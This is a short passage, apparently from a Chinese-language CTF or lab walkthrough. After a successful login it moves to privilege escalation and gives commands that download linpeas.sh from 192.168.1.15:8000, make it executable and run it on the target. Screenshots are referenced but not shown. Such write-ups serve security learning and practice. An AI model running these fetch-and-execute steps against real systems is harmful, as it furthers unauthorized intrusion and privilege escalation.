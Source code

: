 成功登录



提权

上传linpeas.sh

```
wget 192.168.1.15:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image-20250406211903104](./assets/image-20250406211903104.png)

![image-20250406211949112](./assets/image-20250406211949112.png)
